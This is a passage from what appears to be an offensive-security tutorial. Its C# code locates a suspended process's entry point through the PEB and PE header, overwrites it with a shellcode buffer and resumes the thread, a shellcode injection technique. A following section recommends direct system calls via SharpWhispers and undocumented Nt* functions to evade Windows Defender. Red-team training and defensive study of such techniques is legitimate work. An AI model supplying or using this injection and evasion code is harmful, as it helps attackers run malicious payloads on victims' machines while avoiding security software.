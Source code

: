 ```csharp

        IntPtr pImageBase =
            (IntPtr)((Int64)processBasicInformation.PebAddress + 0x10);

        byte[] ptrBuf = new byte[IntPtr.Size];

        ReadProcessMemory(
            hProcess,
            pImageBase,
            ptrBuf,
            ptrBuf.Length,
            out nint nRead
        );

        byte[] PEHeader = new byte[0x200];
        IntPtr pPEBase = (IntPtr)BitConverter.ToInt64(ptrBuf, 0);

        ReadProcessMemory(
            hProcess,
            pPEBase,
            PEHeader,
            PEHeader.Length,
            out nRead
        );

        uint entryPointOffset = BitConverter.ToUInt32(PEHeader, 0x3c) + 0x28;
        uint entryPointRVA =
            BitConverter.ToUInt32(PEHeader, (int)entryPointOffset);
        IntPtr pEntryPoint = (IntPtr)(entryPointRVA + (UInt64)pPEBase);

        WriteProcessMemory(
            hProcess,
            pEntryPoint,
            Shellcode.buf,
            Shellcode.buf.Length,
            out nint nWrite
        );

        _ = ResumeThread(processInformation.hThread);
    }
}
```

## Direct system calls

Invoking methods directly from libraries like `kernel32.dll`, etc. are monitored
by security software like Windows Defender. Making direct system calls, however,
is another technique we can use to try and avoid detection. Using a library like
[SharpWhispers](https://github.com/SECFORCE/SharpWhispers) provides us with
methods to auto-generate the necessary library code to make direct system calls
to the Windows kernel to avoid detection. We also use lesser known, undocumented
`Nt*` methods to bypass detection.
